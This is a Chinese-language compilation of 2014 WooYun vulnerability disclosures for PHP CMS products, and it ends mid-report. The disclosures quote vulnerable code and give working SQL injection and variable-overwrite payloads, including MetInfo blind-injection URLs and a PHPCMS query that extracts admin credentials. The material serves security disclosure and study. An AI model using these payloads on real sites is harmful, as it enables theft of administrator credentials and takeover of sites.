来源：[`www.wooyun.org/bugs/wooyun-2014-056822`](http://www.wooyun.org/bugs/wooyun-2014-056822)

## 简要描述

周末回家,挖洞玩玩。

刚从官网上面下载的。

过滤不严。

## 详细说明

在 ajax.php 中

```php
case 'uploadCloud':

        $folder_id = (int)gpc('folder_id','P',0);

        $folder_id = $folder_id ? $folder_id : -1;

        $data = trim(gpc('data','P',''));

        $is_checked = $is_public ? ($settings['check_public_file'] ? 0 :1) : 1;

        if($settings['all_file_share']){

            $in_share = 1;

        }else{

            $in_share = (int)@$db->result_first("select in_share from {$tpf}folders where userid='$pd_uid' and folder_id='$folder_id'");

        }

        if($data){

            $file_key = random(8);

            if(strpos($data,',')!==false){

                $add_sql = $msg = '';

                $arr = explode(',',$data);

                for($i=0;$i<count($arr)-1;$i++){

                    $file = unserialize(base64_decode($arr[$i]));

                    //print_r($file);

                    //exit;

                    $report_status =0;

                    $report_arr = explode(',',$settings['report_word']);

                    if(count($report_arr)){

                        foreach($report_arr as $value){

                            if (strpos($file['file_name'],$value) !== false){

                                $report_status = 2;

                            }

                        }

                    }

                    $num = @$db->result_first("select count(*) from {$tpf}files where yun_fid='{$file[file_id]}' and userid='$pd_uid'");

                    if($num && $file[file_id]){

                        $tmp_ext = $file[file_extension] ? '.'.$file[file_extension] : '';

                        $msg .=    $file[file_name].$tmp_ext.',';

                    }else{

                        $add_sql .= "($file[file_id],'$file[file_name]','$file_key','$file[file_extension]','application/octet-stream','$file[file_description]','$file[file_size]','$timestamp','$is_checked','$in_share','$report_status','$pd_uid','$folder_id','$onlineip'),";

                    }

                }

                if($add_sql){

                    $add_sql = is_utf8() ? $add_sql : iconv('utf-8','gbk',$add_sql);

                    $add_sql = substr($add_sql,0,-1);

                    $db->query_unbuffered("insert into {$tpf}files(yun_fid,file_name,file_key,file_extension,file_mime,file_description,file_size,file_time,is_checked,in_share,report_status,userid,folder_id,ip) values $add_sql ;");

                }

            }else{

                $file = unserialize(base64_decode($data));

                //write_file(PHPDISK_ROOT.'system/ax.txt',var_export($file,true),'ab');

                //print_r($file);

                //exit;

                $num = @$db->result_first("select count(*) from {$tpf}files where yun_fid='{$file[file_id]}' and userid='$pd_uid'"); 
```

来利用下面的这个 else 里面的来注入把。

```php
lse{

                $file = unserialize(base64_decode($data));

                //write_file(PHPDISK_ROOT.'system/ax.txt',var_export($file,true),'ab');

                //print_r($file);

                //exit;

                $num = @$db->result_first("select count(*) from {$tpf}files where yun_fid='{$file[file_id]}' and userid='$pd_uid'"); 
```

在这里 $data = trim(gpc('data','P','')); data 是我们可控的。

虽然全局转义 但是在这里会对他进行一次解码

然后对他先解码一次 然后再反序列一次。

$file[file_id]

然后将这个就带入了查询当中、

Come and sql it。

## 漏洞证明

首先在本地对语句进行序列化 然后再 encode 一次 得到

YToxOntzOjc6ImZpbGVfaWQiO3M6MTk6ImFhJyBVTklPTiBTRUxFQ1QgMSMiO30=

这里我直接把语句输出来把。

```php
$file = unserialize(base64_decode($data));

                //write_file(PHPDISK_ROOT.'system/ax.txt',var_export($file,true),'ab');

                //print_r($file);

                //exit;

                $sql="select count(*) from {$tpf}files where yun_fid='{$file[file_id]}' and userid='$pd_uid'";

                echo $sql;exit;

                $num = @$db->result_first("select count(*) from {$tpf}files where yun_fid='{$file[file_id]}' and userid='$pd_uid'"); 
```

然后提交 得到。


看这语句。 不用多说了把。

## 修复方案

过滤 it.

# WooYun-2014-53189：qibocms 分类注入一枚可提升自己为管理

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-053189`](http://www.wooyun.org/bugs/wooyun-2014-053189)

## 简要描述

过滤不严。 可修改管理的密码。 或者直接提升自己为管理。

求不忽略可好?

## 详细说明

qibocms 分类系统。

在 member/company.php 中

```php
$cpDB=$db->get_one("SELECT * FROM `{$pre}memberdata_1` WHERE uid='$lfjuid'");

    if($step==2){

        foreach( $_POST AS $key=>$value){

            $_POST[$key]=filtrate($value);

        }

        @extract($_POST);

        if(!$cpname){showerr("企业名称不能为空");}

        if(!$cptype){showerr("请选择企业性质");}

        if(!$cptrade){showerr("请选择企业所属行业");}

        if(!$cpfounder){showerr("企业法人不能为空");}

        if(!$cptelephone){showerr("公司电话不能为空");}

        if(!$cpaddress){showerr("公司地址不能为空");}

        if(!$cpcity){showerr("请选择企业所在城市");}

        if(!$cpcode){showerr("组织机构代码不能为空");}

        if(!ereg("^[0-9]{8}",$cpcode)){

            showerr("请认真填写组织机构代码");    //如果不想严格控制机构码,请把这一行删除

        }

        if(!$cpDB){

            $db->query("INSERT INTO `{$pre}memberdata_1` ( `uid` , `cpname` , `cplogo` , `cptype` , `cptrade` , `cpproduct` , `cpcity` , `cpfoundtime` , `cpfounder` , `cpmannum` , `cpmoney` , `cpcode` , `cppermit` , `cpweb` , `cppostcode` , `cptelephone` , `cpfax` , `cpaddress` ,`cplinkman`,`cpmobphone`,`cpqq`,`cpmsn`) VALUES ( '$lfjuid','$cpname','$cplogo','$cptype','$cptrade','$cpproduct','$cpcity','$cpfoundtime','$cpfounder','$cpmannum','$cpmoney','$cpcode','$cppermit','$cpweb','$cppostcode','$cptelephone','$cpfax','$cpaddress','$cplinkman','$cpmobphone','$cpqq','$cpmsn')");

            $grouptype=$webdb[AutoPassCompany]?'1':'-1';

            $db->query("UPDATE {$pre}memberdata SET grouptype='$grouptype' WHERE uid='$lfjuid'");

            refreshto("company.php?job=edit","你的资料已经提交",1);    

        }else{

            $db->query("UPDATE {$pre}memberdata_1 SET cpname='$cpname',cplogo='$cplogo',cptype='$cptype',cptrade='$cptrade',cpproduct='$cpproduct',cpcity='$cpcity',cpfoundtime='$cpfoundtime',cpfounder='$cpfounder',cpmannum='$cpmannum',cpmoney='$cpmoney',cpcode='$cpcode',cppermit='$cppermit',cpweb='$cpweb',cppostcode='$cppostcode',cptelephone='$cptelephone',cpfax='$cpfax',cpaddress='$cpaddress',cplinkman='$cplinkman',cpmobphone='$cpmobphone',cpqq='$cpqq',cpmsn='$cpmsn' WHERE uid='$lfjuid'");

            refreshto("company.php?job=edit","修改成功",1);

        }            

    } 
```

这里有一枚很明显的变量覆盖 extract

就来覆盖掉表前缀 然后自己补全语句。

可以看到后面还有一个 update 的。

所以可以直接提升自己为管理。

## 漏洞证明


可以看到 成功覆盖了 表前缀。

然后补全语句。


提升成功。

## 修复方案

求不忽略。

求过滤。

求保养。

求 20.

# WooYun-2014-51734：phpmps 注入一枚

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-051734`](http://www.wooyun.org/bugs/wooyun-2014-051734)

## 简要描述

过滤不严。

## 详细说明

在 member.php

```php
case 'check_info_gold':

        $json = new Services_JSON;

        extract($_REQUEST);

        $m_gold = $db->getOne("select gold from {$table}member where userid='$_userid' ");

        $data['kou'] = $CFG['info_top_gold'] * intval($number);

        $data['gold'] = $m_gold - $data['kou'];

        $data=$json->encode($data);

        echo $data;

    break; 
```

extract 变量覆盖。

直接覆盖掉$table 然后补全语句 然后注入。

## 漏洞证明


## 修复方案

过滤。

# WooYun-2014-55338：MetInfo 最新版(5.2.4)一处 SQL 盲注漏洞

漏洞作者： [Mody](http://www.wooyun.org/whitehats/Mody)

来源：[`www.wooyun.org/bugs/wooyun-2014-055338`](http://www.wooyun.org/bugs/wooyun-2014-055338)

## 简要描述

上周三挖了个 metinfo 的后台文件包含，被乌云大大给忽略了，好吧，我承认那个洞的确太难用了。。。今天刚挖到一处 sql 注入，就屁颠屁颠的来乌云提交了，求乌云大大给过，我不要继续当路人甲阿。。。还是上次那句话，貌似 metinfo 都交给 cncert 了，弱弱问下，那还有通用性奖励么？

WooYun 回答：有！

## 详细说明

借用[`**.**.**.**/bugs/wooyun-2010-043795 的一句话：审计代码我一般喜欢先看核心文件`](http://**.**.**.**/bugs/wooyun-2010-043795 的一句话：审计代码我一般喜欢先看核心文件)

1\. 来看核心的文件 admin/include/common.inc.php(下面的代码有我自己添加的调试代码)

```php
/*

 * added by mody

 * glocal register

 */

//print '-----------global register----------<br>';

foreach(array('_COOKIE', '_POST', '_GET') as $_request) {

    foreach($$_request as $_key => $_value) {

        $_key{0} != '_' && $$_key = daddslashes($_value,0,0,1);

        /*

        if(is_array($$_key)){

            print '$'.$_key.'=';

            print_r($$_key);

            print '<br>';

        }

        else print '$'.$_key.'='.$$_key.';<br>';

        */

    }

}

//print '-----------------------------------<br>'; 
```

注册全局变量，可以看到所有的变量都经过了 daddslashes()过滤

2\. 来看看 daddslashes()函数，在文件 admin/include/global.func.php

```php
/*POST 变量转换*/

function daddslashes($string, $force = 0 ,$sql_injection =0,$url =0){

    !defined('MAGIC_QUOTES_GPC') && define('MAGIC_QUOTES_GPC', get_magic_quotes_gpc());

    if(!MAGIC_QUOTES_GPC || $force) {

        if(is_array($string)) {

            foreach($string as $key => $val) {

                $string[$key] = daddslashes($val, $force);

            }

        } else {

            $string = addslashes($string);

        }

    }

    if(is_array($string)){

        if($url){

            //$string='';

            foreach($string as $key => $val) {

                $string[$key] = daddslashes($val, $force);

            }

        }else{

            foreach($string as $key => $val) {

                $string[$key] = daddslashes($val, $force);

            }

        }

    }else{

        if(SQL_DETECT!=1 || $sql_injection==1){

            $string = str_ireplace("\"","/",$string);

            $string = str_ireplace("'","/",$string);

            $string = str_ireplace("*","/",$string);

            $string = str_ireplace("~","/",$string);

            $string = str_ireplace("select", "\sel\ect", $string);

            $string = str_ireplace("insert", "\ins\ert", $string);

            $string = str_ireplace("update", "\up\date", $string);

            $string = str_ireplace("delete", "\de\lete", $string);

            $string = str_ireplace("union", "\un\ion", $string);

            $string = str_ireplace("into", "\in\to", $string);

            $string = str_ireplace("load_file", "\load\_\file", $string);

            $string = str_ireplace("outfile", "\out\file", $string);

            $string = str_ireplace("sleep", "\sle\ep", $string);

            $string_html=$string;

            $string = strip_tags($string);

            if($string_html!=$string){

                $string='';

            }

            $string = str_replace("%", "\%", $string);     //   

        }

    }

    return $string;

} 
```

可以看到，是能够传递 array 变量进来的（前台的 include/include/global.func.php 不能）

3\. 注入点 admin/content/feedback/export.php，这里有亮点啊

这个文件包含了 admin/include/common.inc.php，但是却没有进行 login_check，所以导致这个文件能够不登录直接访问。如下：

```php
<?php

# MetInfo Enterprise Content Management System 

# Copyright (C) MetInfo Co.,Ltd (http://**.**.**.**). All rights reserved. 

    ob_start();

    $depth='../';

    require_once $depth.'../include/common.inc.php';

    ob_clean();

    ob_start(); 
```

接着他进行了一项很危险的操作：

```php
foreach($settings_arr as $key=>$val){

        if($val['columnid']==$class1){

            $tingname    =$val['name'].'_'.$val['columnid'];   //这里导致变量名必须含有下划线的都可以被覆盖

            $$val['name']=$$tingname;

        }

    } 
```

其中,$settings_arr,$class1 都可以在 common.inc.php 中被覆盖，这就导致可以构造一定格式的变量（变量名必须要有下划线）

那么，如何利用，我们来找下面的 sql 语句，总共有三句，找第一句即可

```php
$query = "SELECT * FROM $met_parameter where module=8 and lang='$lang' order by no_order"; 

         //>>>>注意，$met_parameter 是在$settings_arr 后被初始化的，不能直接覆盖，但是可以结合上面的危险操作，进行覆盖<<<<

    //print $query.'<br>';

    //die();

    $result = $db->query($query);

    while($list= $db->fetch_array($result)){

        /*

        print '<br><br>$list=';

        print_r($list);

        */

        $feedbackpara[$list['id']]=$list;  // 注意这里的 id

        $feedback_para[]=$list;

    } 
```

/////////////////////////////

我是猥琐的 poc（其中的 met_admin_table 的 met 为 metinfo 自定义的前缀，可以用户自定义）

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

/////////////////////////////

对于查询的到的结果，会写入 excel 文件内，但是因为列名是规定得死死的，不能直接把 admin_table 表的 password 列直接写进 excel，但是 id 是可以的，这就足够进行盲注了

## 漏洞证明

验证漏洞的存在：

1\. 其中 met_ 为我实验环境 metinfo 的前缀（若要复线请根据实际情况修改）， admin_id=0x61646d696e 为字符串'admin'(过滤了单引号)

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) where admin_id=0x61646d696e -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

然后测试一组错误的,把'admin'改成'admil'试试

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) where admin_id=0x61646d696c -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

结果对比图如下


可以看到两个文件的大小是不一样滴，给大家看看这个 excel 里到底有啥区别


step1：暴力破解 metinfo 前缀

用 brup 进行破解，这个不用我多解释了把，根据返回大小

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

step2： 破解 admin 账户

还是 brup，用 substr 一个个来

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) where substr(admin_id,1,1)=0x61 -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

step3：破解 admin 密码

同上

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) where admin_id=0x61646d696e and substr(admin_pass,1,1)=0x32 -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

## 修复方案

1\. include check_login

2\. export.php 的那个危险的$$注意下

3\. 打赏点 rank 吧，我不用当路人甲阿。。。

# WooYun-2014-50636：PHPCMS 全版本通杀 SQL 注入漏洞

漏洞作者： [felixk3y](http://www.wooyun.org/whitehats/felixk3y)

来源：[`www.wooyun.org/bugs/wooyun-2014-050636`](http://www.wooyun.org/bugs/wooyun-2014-050636)

## 简要描述

上次你们太不给力了,这次再来个通杀 v9 的 SQL 注入,包括最新 v9.5.3 版本

## 详细说明

# 漏洞产生

总的来说，是因为你们修复不完善，并没有理解到这个 SQL 注入的真正原因,同时 补丁后 并没有进行相应的测试 因而可绕过补丁 继续注入...

# 漏洞分析

首先看下面的代码

/phpcms/modules/member/content.php 202 行 edit 函数

```php
public function edit() {

    $_username = $this->memberinfo['username'];

    if(isset($_POST['dosubmit'])) {

        $catid = $_POST['info']['catid'] = intval($_POST['info']['catid']);

        $siteids = getcache('category_content', 'commons');

        $siteid = $siteids[$catid];

        $CATEGORYS = getcache('category_content_'.$siteid, 'commons');

        $category = $CATEGORYS[$catid];

        if($category['type']==0) {//审核状态时，点编辑 再提交，进入 if 分支

            $id = intval($_POST['id']);

            $catid = $_POST['info']['catid'] = intval($_POST['info']['catid']);

            $this->content_db = pc_base::load_model('content_model');

            $modelid = $category['modelid'];

            $this->content_db->set_model($modelid);

            //判断会员组投稿是否需要审核

            $memberinfo = $this->memberinfo;

            $grouplist = getcache('grouplist');

            $setting = string2array($category['setting']);

            if(!$grouplist[$memberinfo['groupid']]['allowpostverify'] || $setting['workflowid']) {

                $_POST['info']['status'] = 1;

            }

            $info = array();

            foreach($_POST['info'] as $_k=>$_v) {

                if(in_array($_k, $fields)) $_POST['info'][$_k] = new_html_special_chars(trim_script($_v));

            }

            $_POST['linkurl'] = str_replace(array('"','(',')',",",' '),'',new_html_special_chars($_POST['linkurl']));

            //exit(print_r($_POST['info']));

            $this->content_db->edit_content($_POST['info'],$id);

            $forward = $_POST['forward'];

            showmessage(L('update_success'),$forward);

        }

    } else {

        //...

} 
```

229 行

```php
$this->content_db->edit_content($_POST['info'],$id); 
```

其中 $_POST['info'] 参数是一个数组，其内容是在线投稿的各项内容，如图所示


好了，接下来我们看看这些数据都经过了怎样的处理...

跟上 edit_content 函数

/phpcms/model/content_model.class.php 第 234 行开始

```php
public function edit_content($data,$id) {

        $model_tablename = $this->model_tablename;

        //前台权限判断

        if(!defined('IN_ADMIN')) {

            $_username = param::get_cookie('_username');

            $us = $this->get_one(array('id'=>$id,'username'=>$_username));

            if(!$us) return false;

        }

        $this->search_db = pc_base::load_model('search_model');

        require_once CACHE_MODEL_PATH.'content_input.class.php';

        require_once CACHE_MODEL_PATH.'content_update.class.php';

        $content_input = new content_input($this->modelid);

        $inputinfo = $content_input->get($data);//跟进此函数

        // /caches/caches_model/caches_data/content_input.class.php get 函数

        $systeminfo = $inputinfo['system']; 
```

第 248 行，我们可以看到 $_POST['info'] 数组进入了 get 函数，继续跟进

/caches/caches_model/caches_data/content_input.class.php 第 55 行开始

```php
if($pattern && $length && !preg_match($pattern, $value) && !$isimport) showmessage($errortips);

$MODEL = getcache('model', 'commons');

$this->db->table_name = $this->fields[$field]['issystem'] ? $this->db_pre.$MODEL[$this->modelid]['tablename'] : $this->db_pre.$MODEL[$this->modelid]['tablename'].'_data';

if($this->fields[$field]['isunique'] && $this->db->get_one(array($field=>$value),$field) && ROUTE_A != 'edit') showmessage($name.L('the_value_must_not_repeat'));

$func = $this->fields[$field]['formtype'];

if(method_exists($this, $func)) $value = $this->$func($field, $value);//这里是关键,后面慢慢说明

if($this->fields[$field]['issystem']) {

    $info['system'][$field] = $value;

} else {

    $info['model'][$field] = $value;

} 
```

我们重点关注这里是怎么处理的

```php
if(method_exists($this, $func)) $value = $this->$func($field, $value); 
```

为了方便看清楚程序在这里究竟是怎样处理的,我们在这行代码前面加入以下调试代码，看看都经过了哪些函数的处理...

```php
if($pattern && $length && !preg_match($pattern, $value) && !$isimport) showmessage($errortips);

$MODEL = getcache('model', 'commons');

$this->db->table_name = $this->fields[$field]['issystem'] ? $this->db_pre.$MODEL[$this->modelid]['tablename'] : $this->db_pre.$MODEL[$this->modelid]['tablename'].'_data';

if($this->fields[$field]['isunique'] && $this->db->get_one(array($field=>$value),$field) && ROUTE_A != 'edit') showmessage($name.L('the_value_must_not_repeat'));

$func = $this->fields[$field]['formtype'];

echo "<br>Function :-->".$func."<--<br>";//这是添加的调试代码

if(method_exists($this, $func)) $value = $this->$func($field, $value);//这里是关键,后面慢慢说明

if($this->fields[$field]['issystem']) {

    $info['system'][$field] = $value;

} else {

    $info['model'][$field] = $value;

} 
```

编辑投稿内容，提交


看见了吧，我们提交的内容经过了如下几个函数：catid title keyword copyform textarea editor image islink box

经过分析后，我们重点关注 image 函数，继续跟上

/caches/caches_model/caches_data/content_input.class.php 第 102 行 image 函数

```php
function image($field, $value) {

    $value = str_replace(array("'",'"','(',')'),'',$value);

    return trim($value);

} 
```

过滤了"'"、"("、")",但是呢 我们知道当开启了 GPC 的时候，单引号会被转义 '-->\'

明白了吧? image 函数过滤了单引号，假设我们提交的数据恰巧经过了 image 函数,则单引号被过滤了，留下"\"，那么这个"\"将会吃掉一个单引号,造成注入

# 3 漏洞 Poc

条件：后台开启投稿，并要求审核

step1 在会员中心随便投一篇文章，提交

step2 点击编辑，如下


step3 在缩略图栏填入 [`**.**.**.**/sql.jpg'，如图`](http://**.**.**.**/sql.jpg'，如图)


提交后，报错了...


# 漏洞最终利用 Exp

在缩略图栏填入：[`**.**.**.**/sql.jpg`](http://**.**.**.**/sql.jpg)'

点击提交，采用 Tamper data 抓包修改，将 info[islink]修改为

```php
,title=(select concat(username,password) from v9_admin where userid=1) -- felixk3y 
```

点击确定，再点编辑 即可读取管理员账号 密码，如图


## 漏洞证明


## 修复方案

必须给力啊.

# WooYun-2014-53198：cmseasy 绕过补丁 SQL 注入一枚

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-053198`](http://www.wooyun.org/bugs/wooyun-2014-053198)

## 简要描述

继续注入。

## 详细说明

在 lib\plugins\pay\alipay.php 中。

上次提了这个文件的洞。

看了看官网发的补丁。

```php
foreach($_POST as $key =>$data) {

                if(preg_match('/(=|<|>)/', $data)){

                    return false;

                } 
```

就是过滤了几个运算符。 但是因为语句是 where xxx。

一般的注入的话 需要 where id=xxx 来注入 但是这里过滤了这些。 没想出什么办法突破。

但是在这文件 还有一个函数。

```php
$payment  = pay::get_payment($_GET['code']);

        $seller_email = rawurldecode($_GET['seller_email']);

        $order_sn = str_replace($_GET['subject'],'',$_GET['out_trade_no']);

        $order_sn = trim($order_sn);

        if (!pay::check_money($order_sn,$_GET['total_fee'])) {

            return false;

        }

        if($_GET['trade_status'] == "WAIT_SELLER_SEND_GOODS"||$_GET['trade_status'] == "TRADE_FINISHED" || $_GET['trade_status'] == "TRADE_SUCCESS") {

            pay::changeorders($order_sn,$_GET);

            return true;

        }else {

            return false;

        } 
```

上次是看的 changeorders 现在 反正我是没办法利用了。

那现在来看看 check_money

```php
public static function check_money($id,$money) {

        $where=array();

        $where['id']=$id;

        $orders=orders::getInstance()->getrow($where);

        $archive=archive::getInstance()->getrow($orders['aid']);

        $prices = getPrices($archive['attr2']);

        $archive['attr2'] = $prices['price']; 
```

可以看到是把 order_sn 带入了 getrow; 再继续

```php
function getrow($condition,$order='1 desc',$cols='*') {

        $this->condition($condition);

        return $this->rec_select_one($condition,'*',$order); 
```

```php
function sql_select($tbname,$where="",$limit=0,$fields="*",$order='') {

        $sql="SELECT ".$fields." FROM `".$tbname."` ".($where ?" WHERE ".$where : "")." ORDER BY ".$order.($limit ?" limit ".$limit : "");

        //echo $sql."<br>";

        return $sql; 
```

这里来把语句输出一下看看。

SELECT * FROM `cmseasy_p_orders` WHERE `id`='123aaaa'

被单引号了。 但是又全局转义 怎么办呢?

看 $order_sn = str_replace($_GET['subject'],'',$_GET['out_trade_no']);

$order_sn = trim($order_sn);

这里跟 ecshop 那个洞挺像。

在这里 有一个 replace 是 xx 把清空 但是这个 xxx 是我们可控的。

总所周知 %00 转义后会变成\0 然后%00' 就是\0\'

这里 如果我们把 0 清空 的话 就成了\' 单引号成功出来。

测试测试。

## 漏洞证明


执行的语句有点多。。 直接全部输出来了。

是成功的哦。

## 修复方案

继续过滤。

这次别忽略了。。

# WooYun-2014-68853：Phpyun 注入漏洞二

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-068853`](http://www.wooyun.org/bugs/wooyun-2014-068853)

## 简要描述

刚在官网下的。

前台注入。 可以直接出管理员的帐号和密码。 无视 360webscan。

## 详细说明

本来以为挖不到了 无聊翻翻文件看看。 翻到了上次那个注入的文件。

model/register.class.php

```php
function regsave_action(){

        $_POST=$this->post_trim($_POST);

        $_POST['username']=iconv("utf-8","gbk",$_POST['username']);

        $_POST['unit_name']=iconv("utf-8","gbk",$_POST['unit_name']); 
```

省略点

```php
ip = $this->obj->fun_ip_get();

            $data['username']=$_POST['username'];

            $data['password']=$pass;

            $data['moblie']=$_POST['moblie'];

            $data['email']=$_POST['email'];

            $data['usertype']=$_POST['usertype'];

            $data['status']=$satus;

            $data['salt']=$salt;

            $data['reg_date']=time();

            $data['reg_ip']=$ip;

            $data['qqid']=$_SESSION['qq']['openid'];

            $data['sinaid']=$_SESSION['sinaid'];

            $userid=$this->obj->insert_into("member",$data); 
```

主要看到这里 ip = $this->obj->fun_ip_get();

一开始就是想的会不会有很古老的 xff 洞? 后面想了想不太可能把 phpyun 这程序目测还算不错的。

可是还是看了看这函数。

然后看到两个文件里面都声明了这函数

1 在　/include/public.function.php　中

```php
function fun_ip_get() {

    if (getenv("HTTP_CLIENT_IP") && strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown")) {

        $ip = getenv("HTTP_CLIENT_IP");

    } else

        if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown")) {

            $ip = getenv("HTTP_X_FORWARDED_FOR");

        } else

            if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), "unknown")) {

                $ip = getenv("REMOTE_ADDR");

            } else

                if (isset ($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], "unknown")) {

                    $ip = $_SERVER['REMOTE_ADDR'];

                } else {

                    $ip = "unknown";

                }

     $preg="/\A((([0-9]?[0-9])|(1[0-9]{2})|(2[0-4][0-9])|(25[0-5]))\.){3}(([0-9]?[0-9])|(1[0-9]{2})|(2[0-4][0-9])|(25[0-5]))\Z/";

     if(preg_match($preg,$ip)){

        return ($ip);

     } 
```

这个文件里面的这函数验证了。

２　/model/class/action.class.php

```php
function fun_ip_get() {

        if (getenv("HTTP_CLIENT_IP") && strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown")) {

            $ip = getenv("HTTP_CLIENT_IP");

        } else

            if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown")) {

                $ip = getenv("HTTP_X_FORWARDED_FOR");

            } else

                if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), "unknown")) {

                    $ip = getenv("REMOTE_ADDR");

                } else

                    if (isset ($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], "unknown")) {

                        $ip = $_SERVER['REMOTE_ADDR'];

                    } else {

                        $ip = "unknown";

                    }

        return ($ip); 
```

而这/model/class/action.class.php 文件里面的却没验证 ip 是否合法。。

而刚才调用的函数 就是调用的这文件里面的。。。。。

碉堡了。。

继续在 model/register.class.php 里面看。

```php
$ip = $this->obj->fun_ip_get();

            $data['username']=$_POST['username'];

            $data['password']=$pass;

            $data['moblie']=$_POST['moblie'];

            $data['email']=$_POST['email'];

            $data['usertype']=$_POST['usertype'];

            $data['status']=$satus;

            $data['salt']=$salt;

            $data['reg_date']=time();

            $data['reg_ip']=$ip;

            $data['qqid']=$_SESSION['qq']['openid'];

            $data['sinaid']=$_SESSION['sinaid'];

            $userid=$this->obj->insert_into("member",$data); 
```

然后就带入到了 insert 当中

```php
function insert_into($table,$data=array()){

        $value="";

        $FieldSQL = "SELECT `COLUMN_NAME` FROM INFORMATION_SCHEMA.Columns WHERE TABLE_NAME = '".$this->def.$table."'";

        $Fquery = $this->db->query($FieldSQL);

        while($Frow=$this->db->fetch_array($Fquery)){

            $Freturn[]=$Frow;

        }

        if(is_array($Freturn))

        {

            foreach($Freturn as $Fkey=>$Fval)

            {

                $fields[] =  $Fval['COLUMN_NAME'];

            }

            if(is_array($data)){

                foreach($data as $key=>$v){

                    if(in_array($key,$fields))

                    {

                        $v = $this->FilterStr($v);

                        $value[]="`".$key."`='".mysql_real_escape_string($v)."'"; 
```

可是在这里 mysql_real_escape_string 转义了 没办法用。

在找找其他哪个文件调用了这函数。

在 model/login.class.php 中

```php
function loginsave_action()

    { 

        $username=iconv("utf-8","gbk",$_POST['username']);

        if($_COOKIE['uid']!=""&&$_COOKIE['username']!="")

        {

            $this->ajaxlogin($_POST['comid'],"您已经登陆了，您不是个人用户！");

            echo "您已经登录了！";die;

        }

        if($_POST['path']!="index")

        {

            if(strstr($this->config["code_web"],'前台登陆'))

            {

                if(md5($_POST["authcode"])!=$_SESSION["authcode"])

                {

                    $this->ajaxlogin($_POST['comid'],"验证码错误!");

                    echo "验证码错误!";die;

                }

            }

        } 
```

省略一点

```php
$time = time();

                            $ip = $this->obj->fun_ip_get();

                            $this->obj->DB_update_all("member","`login_ip`='$ip',`login_date`='$time',`login_hits`=`login_hits`+1","`uid`='".$user['uid']."'");

                            $this->unset_cookie();

                            $this->add_cookie($user['uid'],$user['username'],$user['salt'],$user['email'],$user['password'],$_POST['usertype']); 
```

然后在这里

$this->obj->fun_ip_get(); 再次调用了这函数,

进入 DB_update_all

```php
function DB_update_all($tablename, $value, $where = 1){

        $SQL = "UPDATE `" . $this->def . $tablename . "` SET $value WHERE $where";

         $this->db->query("set sql_mode=''");

        $return=$this->db->query($SQL);

        return $return;

    } 
```

这函数里没有转义 所以可以直接来注入了。

而且由于可控的是在 set 位 所以我们可以想 update 哪个 column 就 update 哪个 column。

这里我们 update 一下 email.

再来看一下 360webscan。

```php
foreach($_GET as $key=>$value) {

      webscan_StopAttack($key,$value,$getfilter,"GET");

    }

  }

  if ($webscan_post) {

    foreach($_POST as $key=>$value) {

      webscan_StopAttack($key,$value,$postfilter,"POST");

    }

  }

  if ($webscan_cookie) {

    foreach($_COOKIE as $key=>$value) {

      webscan_StopAttack($key,$value,$cookiefilter,"COOKIE");

    }

  }

  if ($webscan_referre) {

    foreach($webscan_referer as $key=>$value) {

      webscan_StopAttack($key,$value,$postfilter,"REFERRER");

    }

  }

} 
```

检测了 get post cookie

server 里面只检测了 referer

所以 xff 的话 不用管 360。

## 漏洞证明


然后注销账户 重新登录一次。


## 修复方案

检测是否合法。

# WooYun-2014-62957：CmsEasy 最新版本无限制 SQL 注射

漏洞作者： [blue](http://www.wooyun.org/whitehats/blue)

来源：[`www.wooyun.org/bugs/wooyun-2014-062957`](http://www.wooyun.org/bugs/wooyun-2014-062957)

## 简要描述

版本号：CmsEasy 5_5_0_20140420_UTF8，SQL 注射，程序员过于追求完美时，会忽略那些值得珍惜的人或事，比如女朋友（会有么?），比如这一处代码...

## 详细说明

/lib/default/user_act.php 326 行左右，及/lib/tool/front_class.php 541 行左右，有对 ip 是否正确的判断：

```php
